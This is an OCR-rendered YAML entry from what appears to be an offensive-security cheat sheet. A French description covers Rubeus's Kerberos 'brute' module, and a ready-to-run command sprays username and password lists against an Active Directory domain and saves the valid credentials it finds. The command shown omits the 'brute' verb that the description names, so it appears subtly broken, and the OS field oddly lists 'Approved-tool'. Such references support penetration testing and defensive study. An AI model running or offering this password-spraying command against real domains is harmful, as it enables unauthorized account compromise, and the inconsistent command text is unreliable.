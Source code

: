 ```yaml
---
description: |
  Le module `brute` de Rubeus permet de forcer brutalement et d'énumérer les comptes Active Directory valides grâce à la préauthentification Kerberos. La commande suivante tente de forcer des identifiants et des mots de passe valides à partir d'une liste d'identifiants et de mots de passe.

  Command Reference:

  	Domain: test.local

  	Username List: usernames.txt

  	Password List: passwords.txt

  	Output File: found_passwords.txt
command: |
  Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt
items:
  - No_Creds
services:
  - Kerberos
OS:
  - Windows
  - Approved-tool
attack_types:
  - Enumeration
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#brute
---
```

